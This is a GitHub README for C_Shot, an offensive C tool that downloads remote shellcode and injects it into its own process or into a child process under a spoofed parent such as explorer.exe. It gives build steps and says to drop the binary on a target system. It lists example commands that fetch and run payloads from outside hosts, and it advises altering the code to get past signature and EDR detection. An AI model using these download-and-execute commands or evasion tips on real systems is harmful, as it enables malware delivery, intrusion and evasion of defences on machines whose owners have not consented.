 # C_Shot

Description
============

C_Shot is an offensive security tool written in C which is designed to download, inject, and execute shellcode in memory.  Depending on the arguments used, this can be accomplished via two different methods:

**1. Inject into its own process** 

   C_Shot will download your remote .bin file, inject and execute it inside C_Shot's own process.
 
**2. Inject into child process using parent process spoofing**

   C_Shot will download your remote .bin file, spoof a specified parent process, open a specified child process (with optional commandline args) under the specified parent process, then inject and execute it inside the child process.
   
**Contact at:**
- Twitter: @anthemtotheego

**Shoutout and Contribution:** 
- Jacob Moody: Huge thanks for helping me better understand C concepts when I first started to dive into learning the language.

**Quick blog:**

ADD BLOG HERE

**Extras:**

Included is a python script ShellcodeToBin.py that will convert your shellcode to a .bin file if needed.

**Before submitting issues, this tool may not always be updated actively. I encourage you to borrow, add, mod, and/or make your own.  Remember, there is a lot of awesome code examples out there that can be taken/modified to create your own custom tools.**

Setup - Quick and Dirty
==============================

**Note: For those of you who don't want to go through the trouble of compiling your own I uploaded an x64 and x86 binary found in the CompiledBinaries folder.  For those of you who do want to compile your own... I used Windows 10, Visual Studio 2019 - mileage may vary**

1. Download C_Shot project solution

2. Now do a windows search for Developer Command Prompt for VS 2019 and right click > open folder location                         

3. Browse to VC folder and select the Developer Command Prompt with the correct arch for the target system (x86 or x64)

4. Inside the Developer Command Prompt browse to the C_Shot directory where cshot.c is located

5. Run the following command to build C_Shot - ```cl /D _UNICODE /D UNICODE cshot.c```

6. You will see some compile warnings (can ignore) but you should now have an executable named cshot.exe

7. Drop on target system you are testing and run

Important Notes
===============

**1. Architecture of C_Shot and the shellcode you are retrieving should be the same.**

**2. This tool is written in C which is an unmanaged language.**

**3. PAGE_EXECUTE_READWRITE permissions are used in this open source POC, among other IOCs. This was done intentionally and as always, I would suggest going through and modifying the code to help get around signature/behavior based analysis.**

**4. While C_Shot can absolutely help you on your journey of executing shellcode succesfully, it can only help you with so much.  If you choose to execute for example, the widely known default staged meterpreter payload, decent EDR products (but not all) will most likely flag it upon execution of the shellcode due to known behaviors or signatures.  In most cases (but not all) this will not be a C_Shot problem but a shellcode behavior/obfuscation problem.  This however is usually easily fixed.**

C_Shot Syntax Examples
=====================

   **Download a bin file and execute shellcode into your own process**
   
   *General Syntax*
   
```cshot.exe https://Domain_or_IP/myEvil.bin  Port```

   *Examples*
   
```cshot.exe https://github.com/anthemtotheego/public/blob/master/StagelessShellcode.bin?raw=true 443```

```cshot.exe http://192.168.1.10/StagedShellcode.bin 8080```

   **Download a .bin file and execute shellcode in a chosen child process under a chosen spoofed parent process**
   
   *General Syntax*
   
```cshot.exe https://Domain_or_IP/myEvil.bin  Port ParentProcess.exe C:\Full\Path\ToChildProcess.exe```

   *or*
   
  ```cshot.exe https://Domain_or_IP/myEvil.bin  Port ParentProcess.exe C:\Full\Path\ToChildProcess.exe "my child process commandline args here"```

   *Examples*
   
```cshot.exe https://github.com/anthemtotheego/public/blob/master/StagelessShellcode.bin?raw=true 443 explorer.exe c:\windows\system32\notepad.exe```

```cshot.exe https://github.com/anthemtotheego/public/blob/master/StagelessShellcode.bin?raw=true 443 explorer.exe c:\windows\system32\cmd.exe "ipconfig /all"```

```cshot.exe https://192.168.1.10/StagedShellcode.bin 8443 chrome.exe c:\windows\system32\werfault.exe```


Convert Shellcode To Bin File 
=============================

**Included ShellcodeToBin.py script** 

1. Open up ShellcodeToBin.py in a text editor, paste in shellcode, save and run it.

2. This will produce a bin file you can download with C_Shot and execute.

Code References 
===============

*Parent Process Spoofing*

```https://github.com/hlldz/APC-PPID```

*ShellcodeToBin.py script*

```https://diego.assencio.com/?index=99d3134bb98fdcc9a7c2bd6071db737d```

*Everything else*

```MSDN```

```Unsung heroes of stackoverflow```
